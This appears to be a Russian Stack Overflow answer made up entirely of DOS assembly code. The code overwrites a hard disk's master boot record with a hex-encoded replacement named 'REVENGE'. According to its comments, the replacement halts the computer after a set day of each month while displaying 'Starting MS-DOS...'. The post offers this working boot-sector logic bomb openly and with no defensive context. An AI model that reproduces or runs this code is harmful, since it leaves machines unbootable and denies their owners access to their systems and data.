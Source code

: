 ﻿---
title: "Answer 952929"
se.owner.user_id: 320715
se.owner.display_name: "Sawa Akisawa"
se.owner.link: "https://ru.stackoverflow.com/users/320715/sawa-akisawa"
se.answer_id: 952929
se.question_id: 934247
se.post_type: answer
se.score: 0
se.is_accepted: False
---
<pre><code>;******************************************************************
;*                                                                *
;*  Rewrite MBR: orig=&gt;revenge (halt after X day of month)        *
;*                                                                *
;*                                                                *
;******************************************************************
.model TINY
.CODE
.286

org 100h

start:
     pushf
     pusha
     push ds
     push es

     mov ax,cs
     mov ds,ax
     mov es,ax

     mov dx,80h;                      ; read original MBR
     mov cx,1;
     mov ax,0201h;
     mov bx, offset buff
     int 13h;

     mov di,offset buff               ; change program
     mov si,offset MBR
     cld
     mov cx,offset buff-offset MBR
     rep movsb

     inc cx;                          ; write MBR
     mov ax,0301h;
     int 13h;

     pop es
     pop ds
     popa
     popf

     mov ax,4c00h                     ; exit
     int 21h


; 10-12-95 08:33pm
; Version 1.0
; Master Boot Record: REVENGE
; after MDAY each month
; CodeLenght this programm must be less than 238 byte !
; byte [24h]=MDAY (18H)

MBR db 0FAh,02Bh,0C0h,08Eh,0D0h,08Eh,0C0h,08Eh,0D8h,0BCh,000h,07Ch,0FBh,08Bh,0F4h,0BFh
    db 000h,07Eh,0B9h,000h,001h,0FCh,0F3h,0A5h,0E9h,000h,002h,0B0h,007h,0E6h,070h,0EBh
    db 000h,0E4h,071h,03Ch, 018h, 07Fh,024h,0B9h,004h,000h,0BEh,0EEh,07Fh,0F6h,004h,080h
    db 074h,014h,0F6h,044h,004h,004h,074h,00Eh,08Bh,014h,08Bh,04Ch,002h,0E8h,013h,000h
    db 059h,0EAh,000h,07Ch,000h,000h,083h,0EEh,010h,0E2h,0E2h,0BEh,072h,07Eh,0E8h,017h
    db 000h,0EBh,0FEh,0BBh,000h,07Ch,0BDh,005h,000h,0B8h,001h,002h,0CDh,013h,073h,007h
    db 02Bh,0C0h,0CDh,013h,04Dh,075h,0F2h,0C3h,0B4h,00Eh,0ACh,0CDh,010h,00Ah,0C0h,075h
    db 0F9h,0C3h,053h,074h,061h,072h,074h,069h,06Eh,067h,020h,04Dh,053h,02Dh,044h,04Fh
    db 053h,02Eh,02Eh,02Eh,00Dh,00Ah,000

buff db 516 dup (?)

END start
</code></pre>
